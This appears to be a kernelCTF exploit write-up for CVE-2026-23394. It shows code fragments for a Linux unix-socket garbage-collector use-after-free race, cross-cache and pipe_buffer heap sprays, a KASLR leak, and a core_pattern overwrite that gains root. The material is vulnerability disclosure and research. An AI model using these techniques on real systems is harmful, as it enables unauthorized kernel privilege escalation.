


# CVE-2026-23394

The exploits for LTS and COS are similar, therefore the COS version is a symlink to the LTS version.

## Overview

```c
// @step(name="Exploit attempt (forked)")
pid_t pid = fork();
if (pid == 0) {
    race_ctx ctx{};
    ctx.gc_delay = gc_delay;

    // @step(name="Step 1: Preparation")
    vuln_prepare(&ctx);
    // @step(name="Step 2: Race between unix GC and recv+close")
    trigger_vuln_race(&ctx);
    // @step(name="Step 3: Spray msg_msg to reclaim freed OOB skb slot")
    if (!vuln_trigger_only)
        spray_cross_cache_fake_skbs(&ctx, &target, kernel_base);
    // @step(name="Step 4: recv(MSG_OOB) triggers destructor gadget")
    rip_oob_skb_destructor(ctx.victim_fd);
    // @step(name="Step 5: Overwrite core_pattern and trigger crash")
    privesc_core_pattern();
}
```

## Step 0: KASLR bypass

Before entering the main exploit loop, we leak the kernel base address using a timing side-channel (`leak_kaslr_base` from the `xdk` framework). This is needed to compute absolute addresses for the decrement gadget, `core_pattern.mode`, and the `.bss` section used in the fake skb spray.

## Step 1: Preparation

We build a long cycle of unix sockets to make the window between the first socket check and the last socket check longer.

```c
#define NUM_DUMMY          800 // length of the long cycle of sockets
```

victim (checked first) -> dummy[0] -> dummy[1] -> ... -> dummy[NUM_DUMMY - 1] -> receiver (checked last)

For further exploitation, we groom the `skbuff_head_cache` and send MSG_OOB sandwiched between 16 skbs from both sides.

This ensures that we have the freelist saturated and get a fresh page from the buddy on which we control all the slots (including the MSG_OOB slot) and can free them at once to send the page to PCP.

The skb is 256 bytes in size so we have 16 skbs on a page. Therefore the sandwiched skb is guaranteed to be surrounded by these 16 skbs from both sides. 33 allocations span at least 3 pages and while the edge pages can be partly occupied by other objects, the middle page with the MSG_OOB is fully controlled by our allocations.

This MSG_OOB will be used for RIP control via `oob_skb->prev->destructor` in Step 4.

## Step 2: Race between unix GC and recv+close

The race window depends on the time it takes the GC to iterate through all dummy sockets. We must start our race after the victim gets checked. Since this timing varies across machines and runs, we use an adaptive delay: the `busywait_ns` delay starts at 5 us and increases by 1 us every 5 attempts, resetting to the start value when it reaches 30 us. This sweep ensures we eventually hit the right timing.



## Step 3: Spray msg_msg to reclaim freed OOB skb slot

Now the GC has purged the `victim.receive_queue`, so all skbs in it have been freed and we can't access them through the queue anymore.

But the kernel saves a pointer to one skb in `victim.oob_skb`. The last skb sent with MSG_OOB is saved in this field.

Therefore we can access the freed OOB skb through `recv(victim, MSG_OOB)`. Internally this will call `unix_stream_recv_urg`.

```c
static int unix_stream_recv_urg(struct unix_stream_read_state *state)
{
    // ...

    oob_skb = u->oob_skb;

    if (!(state->flags & MSG_PEEK)) {
        WRITE_ONCE(u->oob_skb, NULL);
        WRITE_ONCE(u->inq_len, u->inq_len - 1);

        if (oob_skb->prev != (struct sk_buff *)&sk->sk_receive_queue &&
            !unix_skb_len(oob_skb->prev)) {
            read_skb = oob_skb->prev;                          // [1]
            __skb_unlink(read_skb, &sk->sk_receive_queue);
        }
    }

    // ... read a byte from the OOB skb

    consume_skb(read_skb);                                     // [2]

    // ...
}
```

The skbs are stored in a separate cache (`skbuff_head_cache`), so we need a cross-cache spray. To do that, we groom the cache by sending many skbs before the target OOB skb. Also, we send the OOB skb inside a sandwich to make sure we have full control of a page with the target skb and can free all skbs on that page.

Before the spray, we free grooming skbs, which saturate the freelist, and free the surrounding sandwich skbs. The OOB skb slot was already freed by the GC in Step 2, so now all 16 slots on its page are free and the page goes straight to the PCP, allowing us to pick it up in the next allocation.

There are many options for spraying now. One approach is the pipe write spray, but it requires either a heap leak or physical page spraying (NPerm). On the other hand, there is `msg_msg` which naturally gives us a valid kernel pointer to our payload at the `skb->prev` offset (0x8): multiple `msg_msg` objects in the same queue form a doubly-linked list via `m_list`, so `m_list.prev` (at offset 0x8, overlapping `skb->prev`) points to the previous `msg_msg` which also contains our fake skb payload. We lose the first 48 bytes to the `msg_msg` header, but we don't need them anyway.

The spray builds a fake skb:

```c
memset(fake_skb_msg.mtext, 0, msg_data_sz);
*(uint64_t*)&fake_skb_msg.mtext[gadget_read_off     - msg_msg_sz] = target_for_first_deref;
*(uint64_t*)&fake_skb_msg.mtext[skb_off_destructor  - msg_msg_sz] = destructor_gadget;
*(uint32_t*)&fake_skb_msg.mtext[skb_off_users       - msg_msg_sz] = 1;
// we need nullified memory to avoid kernel crash due to presence of fragments
*(uint64_t*)&fake_skb_msg.mtext[skb_off_head        - msg_msg_sz] = bss_section;
```

Here we set the `skb->destructor` pointer and `skb->users` for RIP control. `consume_skb` will decrement `skb->users` and compare it to 0; after that it will free the skb, which calls `skb->destructor`.

The `head` field is filled just to avoid crashing the kernel, because in `unix_stream_recv_urg` we read a byte from the skb and the kernel will try to free all the fragments. We must make sure that we have 0 fragments by setting `head` to zeroed memory such as the `.bss` section. In that case, the kernel can't read or free anything.

At `gadget_read_off` (0x38) we store the address `core_pattern_mode - gadget_deref_offset`. The gadget reads `[rdi+0x38]` to get this value, then decrements at `[value + deref_offset]`, which resolves to `core_pattern.mode`.

Since `oob_skb` memory is now occupied by the sprayed `msg_msg`, `oob_skb->prev` (offset 0x8) points to the previous `msg_msg` in the queue - a valid kernel pointer that won't equal `&sk->sk_receive_queue`. The spray is zeroed, which also ensures `unix_skb_len(oob_skb->prev)` returns 0, so the condition passes and `read_skb` is set to `oob_skb->prev` [1]. Then `consume_skb(read_skb)` [2] calls `read_skb->destructor`, giving us RIP control.

## Step 4: recv(MSG_OOB) triggers destructor gadget

After we call `recv(victim, MSG_OOB)`, the kernel calls `unix_stream_recv_urg`, which calls `consume_skb(victim->oob_skb->prev)`, which calls `oob_skb->prev->destructor`. In our fake structure, the `destructor` field is set to a decrement gadget.

The gadget for the LTS target looks like:

```asm
movq   %rdi, (%rdi)
movq   0x38(%rdi), %rdi
lock decl 0x100(%rdi)
je     0xffffffff812494ee ; <+30> at tasks.h:417:3
jmp    0xffffffff828873b0 ; __x86_return_thunk
```

For COS the gadget is structurally the same but uses `0xf8` as the decrement displacement instead of `0x100`.

When our gadget is called, we have a pointer to our fake skb in `rdi`. We have calculated the offsets in our spray to decrement the `core_pattern.mode` field and make `sysctl.core_pattern` world-writable.

## Step 5: Overwrite core_pattern and trigger crash

After `recv(victim, MSG_OOB)` is finished, we have `sysctl.core_pattern` world-writable, so we just write `|/bin/dd if=/flag of=/dev/kmsg` to it and crash a child, which will execute the payload as root, piping the flag to the kernel messages buffer.

## Reliability

The reliability was measured across 500 consecutive runs on the LTS instance. Overall reliability is 99.8% with 1 crash caused by a failure during oob_skb slot reclamation with msg_msg spray (300 pages). This failure can be mitigated by increasing the grooming for both `skbuff_head_cache` (skb cache, ensure that the target slot page is fully controlled and gets freed) and `kmalloc-cg-256` (msg_msg cache, ensure that the freed page gets picked from the PCP and not from the freelist).

# Mitigation

On the mitigation instance we have `CONFIG_SLAB_VIRTUAL` and `CONFIG_RANDOM_KMALLOC_CACHES` enabled, so we need another approach since we can't do cross-cache spray to reclaim `skbuff_head_cache` object (`oob_skb`).

Overview:

Race unix_destruct_scm vs MSG_PEEK (get a file descriptor for a freed file) -> reclaim the slot with pipe read-end -> grow pipe_buffers to 250 elements to allocate `pipe_buffers` via `kmalloc_large` without using the slab -> free the pipe holding the UAF fd (Order-2 page (`pipe->bufs`) goes to the PCP) -> spray an Order-2 page via unix socket write to reclaim `pipe->bufs` -> call splice on the freed pipe, which calls `pipe_buf->confirm` with the decrement gadget -> decrement `core_pattern.mode` -> rewrite core_pattern and crash a child.

```c
// @step(name="Exploit attempt (forked)")
pid_t pid = fork();
if (pid == 0) {
    // Use the same per cpu caches for all allocations
    // groom cpu0, create all the files on cpu0, free them on cpu0 and spray on cpu0
    // details about CPU pinning are in the documentation
    pin_to_cpu(0);

    race_context ctx{};
    ctx.gc_delay       = gc_delay;
    ctx.scm_fp_dup_delay = scm_fp_dup_delay;

    // @step(name="Step 1: Preparation - create a long cycle of unix sockets")
    vuln_prepare(&ctx);

    // @step(name="Step 2: Heap grooming")
    groom_filp_cache();

    // @step(name="Step 3: Race between unix GC and recv+close")
    // @step(name="Step 4: Race between unix_destruct_scm and scm_fp_dup")
    trigger_race(&ctx);

    // @step(name="Step 5: Replace eventfd with pipe read-end")
    pipe_fds uaf_pipe = convert_uaf_file_into_pipe(ctx.spray_fds, ctx.uaf_alias_fd);

    // @step(name="Step 6: Grow pipe_buffers to kmalloc_large allocation outside slab")
    grow_pipe_buffers(&uaf_pipe);

    // Create a socketpair for Step 8 to avoid reclamation of the uaf_pipe
    // we will close the pipe in Step 7 and a new file can reclaim the slot
    int splice_sock[2];
    socketpair(AF_UNIX, SOCK_STREAM, 0, splice_sock);

    // @step(name="Step 7: Free pipe->bufs and spray fake pipe_buffers")
    free_pipe_and_spray_fake_bufs(&uaf_pipe, splice_sock[0], &target, kernel_base);

    // @step(name="Step 8: RIP control via splice => pipe->bufs->confirm")
    rip_pipe_buf_confirm(ctx.uaf_alias_fd, splice_sock[1]);

    // @step(name="Step 9: Privilege escalation via core_pattern")
    privesc_core_pattern();
}
```

## CPU pinning

By default we pin the exploit to CPU0. This is needed for these reasons:

1. In `vuln_prepare` we create many eventfd (251) and CPU1 will iterate over these files calling `get_file`. The allocations on CPU0 ensure that we have more cache misses and a wider pivot race window.
2. We groom the filp cache on CPU0, which ensures the slab with `target_file` is full and the cpu partial list has a minimum number of slabs. This is needed to force the slab to go to the cpu partial list, which helps to reclaim the `target_file` slot more reliably.

## Step 1: Preparation - create a long cycle of unix sockets

This step is quite similar to the LTS one. In the LTS version we sent MSG_OOB to the `victim_socket`, whereas on the mitigation instance we send many files to it (251 eventfds).

When the GC purges `victim.receive_queue`, it will also call `fput` on all these files, and if `fput` drops the last reference the file will be freed. Therefore we can pick these files up after they are freed, getting a general UAF on any chosen `struct file`.

When we send files over a unix socket, the kernel creates `struct scm_fp_list` which holds pointers to all these files.

```c
#define SCM_MAX_FD	253

struct scm_fp_list {
	short			count;
	short			count_unix;
	short			max;
#ifdef CONFIG_UNIX
	bool			inflight;
	bool			dead;
	struct list_head	vertices;
	struct unix_edge	*edges;
#endif
	struct user_struct	*user;
	struct file		*fp[SCM_MAX_FD];
};

fpl = kmalloc(sizeof(struct scm_fp_list), GFP_KERNEL_ACCOUNT);
```

In the mainline kernels this structure is fixed in size and calculated from the `SCM_MAX_FD` (maximum files we can send over a socket).

Finally this structure is 2064 bytes (40 bytes header and 253 pointers) in size and is allocated in `kmalloc-cg-4096`. Therefore when it is freed the freelist pointer resides at offset 2048 bytes, so we can safely send 251 files which guarantees that we don't crash the kernel dereferencing the freelist pointer.

The last file is `target_file` because we will close all the references to it and the GC will `fput` the last one, freeing the file. Also, we send a file right before and right after the skb with these files - this creates skbs that prevent the slab from emptying.

The interesting part is that `CONFIG_RANDOM_KMALLOC_CACHES` helps us here, because the probability of `scm_fp_list` reclamation by other allocations is quite low, so we can safely assume the stale data remains intact during the race.

## Step 2: Heap grooming

One approach to peek the freed file is to close all the references from userspace, so the GC will `fput` the last reference to it. There is at least one other approach (reclaim the `scm_fp_list`), but I have implemented this one.

But before the kernel installs a file descriptor for this freed file, it will run security hooks dereferencing `target_file.f_security`, which is nullified when freed.

To mitigate the null pointer dereferencing we must reclaim the freed slot before this. To make the reclamation more reliable we need to groom the `filp` slab. This helps to ensure that:

1. The slab with `target_file` is full and will go to cpu partial list after freeing
2. The cpu partial list is empty and we don't exceed the cpu partial list size limit

Overall the grooming stage is needed to increase the reliability of `target_file` reclamation.

To groom the cache we allocate 300 `struct file` objects via the `eventfd` syscall.

## Step 3: Race between unix GC and recv+close

This step is similar to the LTS version, but since we need to reliably reclaim `target_file` we can't free many `struct file` objects (which would force the slab containing `target_file` to go to the node partial list). Therefore instead of sending 800 sockets, we send just 100 to initially increase the race window size and widen it further using a timerfd storm.

So the differences:

1. 100 sockets instead of 800
2. timerfd storm to widen the race window

## Step 4: Race between unix_destruct_scm and scm_fp_dup

A destructor for the unix sockets skb is `unix_destruct_scm`. This function frees all the structures related to Unix sockets and calls `fput` for all files in `skb.fp` - pointer to `scm_fp_list` which contains the target file.

```c
static void unix_destruct_scm(struct sk_buff *skb)
{
	struct scm_cookie scm;

	memset(&scm, 0, sizeof(scm));
	scm.pid  = UNIXCB(skb).pid;
	if (UNIXCB(skb).fp)
		unix_detach_fds(&scm, skb);

	scm_destroy(&scm); // calls __scm_destroy
	sock_wfree(skb);
}

static void unix_detach_fds(struct scm_cookie *scm, struct sk_buff *skb)
{
	scm->fp = UNIXCB(skb).fp;
	UNIXCB(skb).fp = NULL;                                     // [1]

	unix_destroy_fpl(scm->fp);
}

void __scm_destroy(struct scm_cookie *scm)
{
	struct scm_fp_list *fpl = scm->fp;
	int i;

	if (fpl) {
		scm->fp = NULL;
		for (i=fpl->count-1; i>=0; i--)
			fput(fpl->fp[i]);
		free_uid(fpl->user);
		kfree(fpl);
	}
}
```

The tricky part is that the pointer to `scm_fp_list` is nullified [1] just after assigning it to `scm`. Therefore we need a method to peek the files from the `skb` saving this pointer somewhere before it is nullified.

When we use `recv` with `MSG_PEEK` we copy the `scm_fp_list` in `unix_peek_fds`.

```c
static void unix_peek_fds(struct scm_cookie *scm, struct sk_buff *skb)
{
	scm->fp = scm_fp_dup(UNIXCB(skb).fp);
}

struct scm_fp_list *scm_fp_dup(struct scm_fp_list *fpl)        // [2]
{
  struct scm_fp_list *new_fpl;
  int i;

  if (!fpl)
    return NULL;

  new_fpl = kmemdup(fpl, offsetof(struct scm_fp_list, fp[fpl->count]),
              GFP_KERNEL_ACCOUNT);
  if (new_fpl) {
     for (i = 0; i < fpl->count; i++)
       get_file(fpl->fp[i]);                                   // [3]
  }
  return new_fpl;
}
```

After we have entered into `scm_fp_dup` the pointer has been saved [2] and we can safely call `unix_destruct_scm` on the skb with `target_file`.

Here we have a small loop over our 251 files calling `get_file` [3] on each. The `target_file` is the last file in this list, so we must let the GC finish `unix_destruct_scm` after entering this function but before `get_file(target_file)` [3].

To make this window wider we use:

1. Sending the maximum number of files as described in Step 1 to maximize loop iterations.
2. File allocations on CPU0 while running this function on CPU1. This ensures many cache misses.
3. Timerfd storm.
4. The `WARN_ONCE` triggered by `get_file(target_file)` with f_count=0, which gives us another ~100ms of stall while the kernel prints the warning message.

While the warning is being printed, we spray 300 eventfd files on CPU0 to reclaim `target_file`. We must finish the reclamation before CPU1 finishes printing and dereferences `target_file.f_security`.

Before the spray we sleep for 20ms to ensure delayed work is processed, because the GC called `fput` with the last reference in kernel thread context, so `__fput` is called only after a 1-jiffy delay and we must wait for it to finish before spraying files.

The races scheme:



## Step 5: Replace eventfd with pipe read-end

To exploit the dangling file descriptor primitive we convert the file to pipe read-end.

This is done by closing all the sprayed files and spraying pipes searching for a file with the same `inode` as `target_file`. We might get the write-end; in that case, we retry until we get the pipe read-end.

## Step 6: Grow pipe_buffers to kmalloc_large allocation outside slab

On the mitigation instance we can't do cross-cache attacks because of virtual addresses for slabs.

But `kmalloc` doesn't use SLAB for allocations greater than 2 pages (8,192 bytes). In that case it uses `kmalloc_large` picking pages directly from the buddy.

Pipes have a structure for holding pipe buffers in `pipe->bufs`. The size of this structure can be manipulated by increasing the count of pipe buffers. Each pipe buffer is 40 bytes in this structure.

This structure is allocated by `kcalloc`, so if we increase it to more than 8,192 bytes we will allocate an Order-2 page outside the slab, avoiding all the mitigations.

```c
pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),
			     GFP_KERNEL_ACCOUNT);
```

## Step 7: Free pipe->bufs and spray fake pipe_buffers

To free the `pipe->bufs` we just close both ends.

Each `pipe_buffer` has a pointer to a table of functions:

```c
struct pipe_buffer {
	struct page *page;
	unsigned int offset, len;
	const struct pipe_buf_operations *ops;
	unsigned int flags;
	unsigned long private;
};
```

We intend to pivot our UAF on pipe read-end into RIP control through `pipe_buffer->ops->confirm`.

```c
static void spray_fake_pipe_buffers(int spray_socket_fd, Target *target, uint64_t kernel_base) {
    char *buf = (char*)malloc(PIPE_BUF_DATA_SIZE);
    memset(buf, 0, PIPE_BUF_DATA_SIZE);

    uint64_t pipe_buffer_ops_off = target->GetFieldOffset("pipe_buffer", "ops");

    uint64_t ql_ps_end_io = kernel_base + target->GetSymbolOffset("ql_ps.end_io");
    uint64_t dec_target = kernel_base + target->GetSymbolOffset("core_pattern_mode") - DEC_GADGET_DEREF_OFFS;

    // ops->confirm reads the ql_end_io function pointer = decrement gadget
    *(uint64_t*)(buf + pipe_buffer_ops_off) = ql_ps_end_io;
    // ql_end_io: movq 0x8(%rsi), %rax; lock decl 0x1c(%rax)
    // -> decrements core_pattern_mode from 0644 to 0643
    *(uint64_t*)(buf + DEC_GADGET_READ_OFFS) = dec_target;

    // Reclaim the freed Order-2 page with attacker-controlled data via socket write buffer.
    write(spray_socket_fd, buf, PIPE_BUF_DATA_SIZE);
}
```

The spray is performed by writing to a unix socket. This syscall can help us allocate Order-2 pages with full control of the content.

In the spray we just fill the pointer to `ops`. The `confirm` method is located at offset 0 in this vtable.

Since we use the [DirtyMode](https://github.com/google/security-research/blob/454a08206a7a076259ee9abb9602acbbbbe6ceb3/pocs/linux/kernelctf/CVE-2025-40214_mitigation/docs/novel-techniques.md#dirtymode-privilege-escalation-with-weak-write-primitives) technique, we have a wide variety of suitable gadgets that give us an arbitrary decrement. We have RIP control with our structure in `rsi`.

Therefore we find the decrement gadget as a real function stored in a real vtable. This avoids fake vtable spraying and eliminates the need for a heap leak, increasing reliability. For example, we use `ql_ps_end_io` which does:

```asm
movq 0x8(%rsi), %rax
lock decl 0x1c(%rax)
```

We also fill `rsi + 0x8` with the target for decrementing - `core_pattern.mode` which will be world-writable after we decrement it from 0644 to 0643 (we just need the second bit (0x2) to be true).

## Step 8: RIP control via splice => pipe->bufs->confirm

Now we have `pipe->bufs` filled with our fake buffer. Also we have a dangling file descriptor to the read end of this pipe. So we just call `splice` from this pipe to a socket. Before calling splice, we:

1) `unshare` the file table to ensure we use the light path in `fdget` and don't get stuck in a forever loop trying `atomic_inc_not_zero()`
2) `shutdown` the socket so that after the `pipe->bufs->confirm` gadget fires, the splice fails fast with -EPIPE without touching other corrupted data:

```c
ssize_t splice_to_socket(struct pipe_inode_info *pipe, struct file *out,
			 loff_t *ppos, size_t len, unsigned int flags)
{
	// ...

	while (len > 0) {
		// ...

		while (pipe_empty(pipe->head, pipe->tail)) {
			// ...

			pipe_wait_readable(pipe);
		}

		// ...

		while (!pipe_empty(head, tail)) {
			// ...

			ret = pipe_buf_confirm(pipe, buf);
			if (unlikely(ret)) { // gadget zeroes rax so we don't break
				if (ret == -ENODATA)
					ret = 0;
				break;
			}

			// ...
		}

		// ...

		ret = sock_sendmsg(sock, &msg);
		if (ret <= 0) // we forced early exit so ret = -EPIPE
			break;
		// ...
	}

out:
	pipe_unlock(pipe);
	if (need_wakeup)
		wakeup_pipe_writers(pipe);
	return spliced ?: ret;
}


static int unix_stream_sendmsg(struct socket *sock, struct msghdr *msg,
			       size_t len)
{
	// ...

	// we must force early exit to not deal with corrupted structures
	if (READ_ONCE(sk->sk_shutdown) & SEND_SHUTDOWN)
		goto pipe_err;

	// ...
}
```

Now we have the UAF file descriptor that is pointing to the pipe read-end with `f_count` == 0. Therefore on exit the kernel will crash. The cleanup is handled by `corrupted_fd_cleanup(fd)`. This function reclaims the freed slot so we have 2 fds to a file with f_count == 1, then mmaps this file (f_count == 2), then closes both fds (f_count goes to zero safely) and unmaps the mapping, which gives us f_count == -1 but is safe.

This results in removing the file descriptor whithout crashing.

## Step 9: Privilege escalation via core_pattern

This step is the same as in the LTS version.

## Timerfd storm to expand a race window

To expand the race windows we use many interrupts via timerfd:

1. Pin the thread to a CPU
2. Create timers spaced 4,000 ns apart

The number of timers is calculated by dividing the target stall time by the timerfd step.

The step was chosen so that once a timer is processed, the next one is already firing, which creates a reliable stall with a deterministic duration.

## Reliability notes

The overall reliability is 100% across 550 runs on the mitigation instance. But in theory the exploit can fail if:

1. Hypervisor steals the CPU before `target_file` reclamation, resulting in a null `f_security` dereference. In this case the alternative approach with `scm_fp_list` reclamation is more reliable because the underlying file doesn't get freed and `get_file(target_file)` is also not called.
2. The CPU is too fast or too slow for the minimum and maximum timings. In this case we can expand the timing bounds. Also, we can adjust the step for the timerfd storm. This can be done automatically by measuring memory latencies, CPU frequency, and timerfd processing timings. But for the kernelCTF submission we use these empirically chosen values.

Anyway I have not seen this while testing.

The high reliability is ensured by:

1. Heap grooming and a small number of sockets in the cycle to ensure deterministic `target_file` reclamation
2. Increasing `pipe->bufs` to the Order-2 allocation to ensure a reliable one-shot reclamation (also this helps to bypass the mitigations)
3. Using a pre-existing kernel vtable for `pipe_buffer->ops` to avoid spraying a fake vtable
4. Forked attempts to automatically cleanup after a failed attempt
